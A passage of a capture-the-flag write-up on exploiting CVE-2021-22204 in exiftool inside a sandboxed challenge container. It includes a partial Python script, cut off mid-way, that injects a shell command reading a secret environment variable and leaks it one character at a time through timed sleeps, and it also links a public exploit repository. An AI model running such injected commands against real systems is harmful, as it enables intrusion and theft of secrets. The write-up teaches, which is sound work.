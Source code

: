 ```dockerfile
    find /src -type f -exec chmod 644 {} + && \
    find /src -type f -exec chattr +i {} \; && \
    find /src/tmp -type d -exec chmod 777 {} + && \
    find /src/*.sh -exec chmod +x {} \;

RUN apt-get install -y tzdata && \
    cp /usr/share/zoneinfo/Asia/Tokyo /etc/localtime && \
    echo "Asia/Tokyo" > /etc/timezone

RUN python3.11 -m pip install -r requirements.txt
RUN python3.11 -m pip install uwsgi
RUN apt-get purge -y curl wget

RUN ln -sf /bin/bash /bin/sh

CMD ["uwsgi", "uwsgi.ini"]

RUN chmod o-x /usr/local/bin/python3.11 && \
    rm /usr/lib/x86_64-linux-gnu/perl-base/socket.pm
```

The Dockerfile downloads a slightly outdated version of `exiftool`. From other CTFs, we knew that `exiftool` had some problems in the past, so we looked around for CVEs related to this version. With little surprise, we found that this version is vulnerable to [CVE-2021-22204](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22204), allowing a quite simple RCE. After quickly getting an PoC exploit from [this repo](https://github.com/UNICORDev/exploit-CVE-2021-22204), we got the flag... or so we thought.

There is a catch: the backend container is completely isolated from external networks, so no reverse shell, curl, or even DNS exfiltration here! We decided to use a side-channel: time (e.g. `sleep`). Fairly enough, we can find a utility script already on the backend that allows to convert a character to its ASCII (decimal) representation. We also knew that flag letters only included hexadecimal digits, making it easier to optimize the side-channel.
The following is the script used to extract the flag with success. Notice that we could not use some characters (e.g. parenthesis), making the scripting part a little more frustrating. The final script is fairly fast and reliable:

```py
#!/usr/bin/env python

import os
import requests
import time

flag = "LINECTF{"
##       LINECTF{2a38211e3b4da95326f5ab593d0af0e9}
i = len(flag)
while True:
    print(flag)

    ## This command will:
    ##  - save into X the ascii value of the i-th character of the flag
    ##  - sleep for $X - 87 seconds, which may mean not sleeping (if character is in 0-9),
    ##    where 87 is ord('a') - 10, so that characters in a-f will cause a sleep from 10 to 16 seconds
    ##  - if previous sleep failed, sleep for $X - 48 seconds, where 48 is ord('0'), meaning that
    ##    we will sleep from 0 to 9 seconds for characters in 0-9
    #
    ## TL;DR;
    ##  - 0 <= sleep < 10 -> 0-9
    ##  - 10 <= sleep <= 15 -> a-f
    cmd = (
        "X=`/src/ascii.sh ${FLAG:%d:1}`; sleep `expr $X - 87` || sleep `expr $X - 48`"
        % i
```